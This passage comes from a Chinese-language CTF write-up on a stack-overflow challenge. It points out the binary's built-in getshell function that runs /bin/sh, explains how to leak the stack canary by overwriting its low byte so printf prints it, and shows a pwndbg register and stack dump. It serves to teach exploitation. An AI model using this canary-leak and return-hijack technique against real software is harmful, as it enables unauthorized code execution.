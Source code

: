同時也發現程序中給了能直接 get shell 的函數
```asm
.text:0000000000000A3E getshell        proc near
.text:0000000000000A3E ; __unwind { .text:0000000000000A3E                 push    rbp
.text:0000000000000A3F                 mov     rbp, rsp
.text:0000000000000A42                 lea     rdi, command    ; "/bin/sh"
.text:0000000000000A49                 call    _system
.text:0000000000000A4E                 nop
.text:0000000000000A4F                 pop     rbp
.text:0000000000000A50                 retn
.text:0000000000000A50 ; } // starts at A3E
.text:0000000000000A50 getshell        endp
```
這樣我們只要控制 rip 到該函數即可

#### leak canary
在第一次 read 之後緊接着就有一個輸出, 而 read 並不會給輸入的末尾加上 \0, 這就給了我們 leak 棧上內容的機會。

爲了第二次溢出能控制返回地址, 我們選擇 leak canary. 可以計算出第一次 read 需要的長度爲 0x30 - 0x8 + 1 (+ 1 是爲了覆蓋 canary 的最低位爲非 0 的值, printf 使用 %s 時, 遇到 \0 結束, 覆蓋 canary 低位爲非 0 值時, canary 就可以被 printf 打印出來了)

```asm
Breakpoint 1, 0x0000557c8443aa08 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────
 RAX  0x0
 RBX  0x0
 RCX  0x7f1898a64690 (__read_nocancel+7) ◂— cmp    rax, -0xfff
 RDX  0x30
 RDI  0x557c8443ab15 ◂— insb   byte ptr [rdi], dx /* 'Hello %s:\n' */
 RSI  0x7ffd97aa0410 ◂— 0x6161616161616161 ('aaaaaaaa')
 R8   0x7f1898f1d700 ◂— 0x7f1898f1d700
 R9   0x7f1898f1d700 ◂— 0x7f1898f1d700
 R10  0x37b
 R11  0x246
 R12  0x557c8443a830 ◂— xor    ebp, ebp
 R13  0x7ffd97aa0540 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7ffd97aa0440 —▸ 0x7ffd97aa0460 —▸ 0x557c8443aa80 ◂— push   r15
 RSP  0x7ffd97aa0410 ◂— 0x6161616161616161 ('aaaaaaaa')
 RIP  0x557c8443aa08 ◂— call   0x557c8443a7e0
───────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────
 ► 0x557c8443aa08    call   0x557c8443a7e0

   0x557c8443aa0d    lea    rax, [rbp - 0x30]
   0x557c8443aa11    mov    edx, 0x60
   0x557c8443aa16    mov    rsi, rax
   0x557c8443aa19    mov    edi, 0
   0x557c8443aa1e    call   0x557c8443a7f0

   0x557c8443aa23    mov    eax, 0
   0x557c8443aa28    mov    rcx, qword ptr [rbp - 8]
   0x557c8443aa2c    xor    rcx, qword ptr fs:[0x28]
   0x557c8443aa35    je     0x557c8443aa3c

   0x557c8443aa37    call   0x557c8443a7c0
────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ rsi rsp  0x7ffd97aa0410 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓
05:0028│          0x7ffd97aa0438 ◂— 0xb3012605fc402a61
06:0030│ rbp      0x7ffd97aa0440 —▸ 0x7ffd97aa0460 —▸ 0x557c8443aa80 ◂— push   r15
```